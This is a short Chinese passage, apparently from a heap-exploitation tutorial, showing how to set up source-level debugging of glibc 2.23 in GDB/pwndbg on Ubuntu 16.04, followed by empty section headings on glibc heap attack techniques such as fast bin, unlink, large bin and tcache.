以 Ubuntu 16.04 为例，搭建 Glib从源码调试环境。安装源码包：

```
apt install glibc-source
```

在 `/usr/src/glibc` 中找到 `glibc-2.23.tar.xz` 文件，解压文件：

```
tar xf /usr/src/glibc/glibc-2.23.tar.xz 
```

在 GDB 中使用 dir 命令设置源码搜索路径：

```
pwndbg> dir /usr/src/glibc/glibc-2.23/malloc
Source directories searched: /usr/src/glibc/glibc-2.23/malloc:$cdir:$cwd
```

这样可以在源码级别调试 Glibc 源码。可以在 `~/.gdbinit` 中加入以下命令设置源码路径：

```
dir /usr/src/glibc/glibc-2.23/malloc
```

#### 6.3.2 Fast Bin Attack

#### 6.3.3 Unsorted Bin List

#### 6.3.4 Unlink 攻击

#### 6.3.5 Large Bin Attack（0CTF heapstormII）

#### 6.3.6 Make Life Easier：tcache

#### 6.3.7 Glibc 2.29 的 tcache
